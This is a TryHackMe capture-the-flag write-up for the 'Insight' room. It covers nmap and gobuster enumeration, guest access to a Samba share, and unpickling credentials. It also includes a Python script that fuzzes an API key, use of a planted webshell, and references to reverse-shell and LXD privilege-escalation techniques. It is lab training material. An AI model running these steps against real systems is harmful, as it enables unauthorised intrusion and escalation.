










# Insight - Tryhackme Writeup

> Author: Abhiram B.S.N.
> Date created: 25th December 2020

## Introduction

This room includes pickling, cracking, API fuzzing and PrivEsc

### Step 1: Enumeration

Command:

```bash
nmap -sC -sV -vvvv -A -oN nmap.scan <MACHINE_IP>
```

_IMP: Perform an All port after the initial nmap scan, to get the port at which the API service is running_

```bash
nmap -p- -T5 -vvvv -oN nmap.allport <MACHINE_IP>
```

Now we get:

```text
PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:8e:56:eb:1c:05:f0:77:c8:49:b1:a6:32:2a:65:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdKAhskUxDaBxAagOkXy/+f3jNuZvExd/3ksNfalyOq7LrXSw8GBWpkeQagVVNLUU0Wa+qUBssyvYXbwrp9qZ/suQRzCdNjQ0eJ4y5Maflud3WyeP9HEtNVVE3esepBH0Mq4y+t8r7bWii9UC+00LSljnNX/iG57r/TM9IvTG3/DFtSxAlaobNmU7xB7VdHKvPBxuGHZqeDT/RgEA6fuchTT0ZSSGZUP+rM3cwQeM+SBc+vI9JPpCmk6RGC365i1L+8fXzcFtieyUHktBV1wcml1HIeHOFLpxmjit07QCuEYaok8MSB3QMba28LNhLo6mqTkt2dtzp0vpWmUIs/xI/
|   256 2f:61:b2:6b:54:ba:9e:3a:4a:c7:56:64:b8:fb:a7:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJBbF1Td/wPsla39Cr9slnQpdWT0ZCtvmBqgniFAtJbHGuSZRU6hg/BX8znerG+MgGbflt7Ye1GGDK+9Db+rwm0=
|   256 3d:2d:2a:10:7d:a1:47:de:f0:68:f0:33:12:ad:23:5c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDhelZgi4cbr1XUhTJzFJhl4Dc9gTQxYWProxxAQzZY3
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: INSIGHT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| nbstat: NetBIOS name: INSIGHT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   INSIGHT<00>          Flags: <unique><active>
|   INSIGHT<03>          Flags: <unique><active>
|   INSIGHT<20>          Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 28256/tcp): CLEAN (Timeout)
|   Check 2 (port 13323/tcp): CLEAN (Timeout)
|   Check 3 (port 12466/udp): CLEAN (Timeout)
|   Check 4 (port 60493/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: insight
|   NetBIOS computer name: INSIGHT\x00
|   Domain name: \x00
|   FQDN: insight
|_  System time: 2020-12-26T06:10:49+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-26T06:10:49
|_  start_date: N/A
```

As for the All port scan we see an additional port that was not there on the inital scan

```text
PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
5995/tcp open  unknown      syn-ack
```

**As we see that Port 5995 was not showing in the inital scan**


### What is the File Server service running on the Machine

```text
Ans. Samba (From port 445)
```

Now we get the list of samba shares using smbclient

```bash
smbclient -L <MACHINE_IP>
```

```text
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
backup          Disk      Samba Share of Insight
IPC$            IPC       IPC Service (insight server (Samba, Ubuntu))
```

**The Backup Share is the odd one out so we will access that share to see for any possible files**

Now as per the hint of the question, we should access the share as **guest** user

```bash
smbclient -U guest \\\\<MACHINE_IP>\\backup
```

### Access the Share

```text
No Answer Required
```

On accessing the share we got a **pick.cks**, which contained some encoded text we will get back to that later.

#### Now we go to the web enumeration

On accessing port 80 we just got a Apache 2 defualt page, which does not tell much, so we use gobuster to enumerate the site

```bash
gobuster dir -u http://<MACHINE_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log
```

```text
/javascript (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
```

We navigate to the **/secret** directory but all we see is a message



This gives a hint that we need to perform further enumeration so we check if the server supports *.php* extension or not

For that you can append **index.php** after the URL like **http://<MACHINE_IP>/secret/index.php**

and we see that we php is being used by this server as the same webpage was loaded with the above URL

Now we again use gobuster to enumerate in the secret directory

```bash
gobuster dir -u http://<MACHINE_IP>/secret -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.secret.log
```

```text
/index.php (Status: 200)
/vshell.php (Status: 200)
```

Now we see that there is a webshell asking for a Authorization Token,
for this we will go back to the **pick.cks** file which we downloaded from the samba share.

On decoding the base64 encoded data we get some more obfuscated data which looks like pickle serialization 

So we use a python script to decode the credentials

```python
#!/usr/bin/python3

import pickle

f = open("pickled.txt", "rb")
print(pickle.load(f))
```



We can see that the credentials are binary encoded so we decode them using
[Cyber Chef](https://gchq.github.io/CyberChef/) as shown below




Now we check the Port 5995 at which the API Service is running

we make a GET request to the website root using httpie

```bash
http http://<MACHINE_IP>
```



Now as per the hint the API key is in between 500 and 1000 and on further observation we found that if the api key is wrong a **404** Status is being returned so we can write a python script to get the correct API key

```python
#!/usr/bin/python3
 
import requests
import time

url = "http://<MACHINE_IP>:5995/"

print("Fuzzing the API Now...\n\n")

for i in range(500, 1000):
	r = requests.get(url+str(i))
	if r.status_code != 200:
		print("[{}] [URL: {}] No".format(i, url+str(i)))
	else:
		print("[{}] [URL: {}] Got it".format(i, url+str(i)))
		break
	time.sleep(0.01)
```

Executing the above script will yield us the API key



We get 595 as the API key, now we make another get request to the URL this time with the API key

```bash
http http://<MACHINE_IP>:5995/<API-KEY>
```



Now perform a post request to the same URL with the Credentials we got by depickling the file content

```bash
http POST http://<MACHINE_IP>/<API-KEY> username="username" password="password" --json
```



Now use this token at the vshell.php password prompt



On pressing Enter we get a webshell



Now use the terminal to get a reverse shell, for reverse shells refer to [Pentest Monkey Reverse Shell Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Now when you get the reverse shell look into the various directories like /opt, /var for interesting files and you will get a note with SSH Private Key

Download and decrypt the key to get access to another user and esclate your way using the GTFO binary **cpulimit**

And for root flag use the lxd privilege escalation

Refer to [LXD Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

If you get an error stating **remote "" does not exist** use the following command

```bash
lxc remote set-default local
```

Happy Hacking
Regards,
Abhiram B.S.N.
